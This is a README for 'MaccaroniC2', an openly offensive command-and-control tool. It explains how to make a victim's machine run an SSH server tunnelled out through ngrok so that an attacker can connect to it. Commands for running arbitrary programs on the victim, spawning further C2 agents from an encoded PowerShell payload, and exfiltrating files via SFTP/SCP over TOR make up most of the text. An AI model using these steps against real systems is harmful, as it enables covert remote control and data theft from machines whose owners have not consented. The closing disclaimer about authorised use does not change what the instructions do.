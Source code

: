 # MaccaroniC2 - Empowering Command & Control using AsyncSSH

![](https://github.com/CalfCrusher/MaccaroniC2/blob/main/maccaroni.jpg)

**MaccaroniC2** is a *proof-of-concept* **Command and Control framework** that utilizes the powerful `AsyncSSH` Python library which provides an asynchronous client and server implementation of the SSHv2 protocol and use `PyNgrok` wrapper for `ngrok` integration. This tool is inspired for a specific scenario where the victim runs an SSH server and establishes a tunnel to the outside, ready to receive commands by the attacker.

The attacker leverages the `Ngrok official API` to retrieve the hostname and port of the tunnel to establish a connection. This approach takes advantage of the comprehensive capabilities provided by **AsyncSSH**, including its integrated support for `SFTP` and `SCP`, facilitating secure and efficient file exfiltration and more.

Moreover, the attacker can send and execute system commands using a SOCKS proxy, leveraging the benefits offered, for example, using `TOR` to enhance anonymity.

* *Ngrok free account only allows the usage of one tunnel at a time. With some changes this tool could be perfect for a BOT-like C&C framework to control multiple SSH instances, but you would need to upgrade your plan on the Ngrok website, see https://ngrok.com/pricing*
   
## Setup and Procedure

1) Run `python3 gen_rsa.py` to generate a pair of SSH keys. The newly generated `id_rsa` is used by the attacker to connect to the server running on the victim's machine.

2) Edit the `asyncssh_server.py` file and place the contents of the newly generated `id_rsa.pub` inside the `pub_key` variable. The `asyncssh_server.py` file acts as an SSH server with SFTP and SCP enabled, which will be run by the victim.

3) Create a free account on Ngrok site and take note of the `AUTH` Token.
  
4) Add the `AUTH` token to the `token` variable in `asyncssh_server.py`, this needs to be harcoded inside the `ngrok_tunnel()` function.
  
5) Create a free `API` key on the Ngrok website. Take note of the generated string.

6) Put the `API` key string in the `api_key` variable inside the `async_commander.py` file. This allows us to automatically retrieve the Ngrok domain and port of the active tunnel during automation.

7) Perform the same step for `get_endpoints.py` file. This script retrieves various useful information about active tunnels.

## Send commands to server  

With `async_commander.py` you can send any command to the server. It *automatically* requests the Ngrok tunnel's domain and port activated by the victim using Ngrok official API.
  
Please note also that the `id_rsa` needs to be in the same folder of `async_commander.py`

## Basic Usage

Send command using socks proxy:  
  
`python3 asyncssh_commander.py "ls -la" --proxy socks5h://127.0.0.1:9050`
 
___
  
Send command without using a proxy:

`python3 asyncssh_commander.py "whoami"`
  
___
  
Spawn another C2 agent (Powershell-Empire, Meterpreter, etc):

`python3 asyncssh_commander.py "powershell -e ABJe...dhYte"`
  
___    
  
Get list of active tunnels:
  
`python3 get_endpoints.py`
  
___
  
Generate new RSA key pairs:
  
`python3 gen_rsa.py`
  
## Advanced Usage
 
Using `SFTP` and `SCP` - you don't need a valid username just the correct `id_rsa`

- With proxy:
  
`proxychains sftp -P NGROK_PORT -i id_rsa ddddd@NGROK_HOST`
  
`scp -i id_rsa -o ProxyCommand="nc -x localhost:9050 %h NGROK_PORT" source_file ddddd@NGROK_HOST:destination_path`
  
___  
  
- No proxy:
  
`sftp -P 18499 -i id_rsa ddddd@0.tcp.ngrok.io`
  
`scp -i id_rsa source_file ddddd@0.tcp.ngrok.io:destination_path`
  
___

**DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage. Please ensure compliance with applicable laws and regulations while utilizing this tool**
  
